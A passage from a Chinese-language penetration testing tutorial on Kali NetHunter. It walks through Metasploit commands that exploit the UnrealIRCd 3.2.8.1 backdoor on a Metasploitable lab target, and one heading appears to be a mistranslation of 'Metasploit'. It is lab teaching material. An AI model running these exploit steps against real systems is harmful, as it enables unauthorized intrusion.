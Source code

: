 NetHunter 附带的 GUI 非常适合运行这样的简单扫描。对于更详细的扫描或脚本的使用，您必须切换到命令行版本的 NMAP。

# 变质岩

我们在前几章中讨论过的众多强大的渗透测试工具之一是 Metasploit。Metasploit 框架包含在 NetHunter 中，其功能与 Kali Linux 完全相同。例如，让我们使用 NetHunter 平台尝试利用运行 Metasploitable 的目标系统中的后门漏洞。

首先，单击 NetHunter 终端图标，然后键入以下内容：

```
    # msfconsole
```

我们将利用 Metasploitable 中 IRC 守护进程中的后门漏洞。因此，我们将使用`unreal_ircd_3281_backdoor`漏洞。我们在命令行中输入以下内容：

```
    msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
```

接下来，我们将远程主机设置为 Metasploitable 机器：

```
    msf >exploit(unreal_ircd_3281_backdoor) >set RHOST 192.168.0.182  
```

最后，我们运行这个漏洞。以下屏幕截图显示了上述命令的输出：

![](img/218e5ae8-bd57-4579-871d-fec195655ffc.png)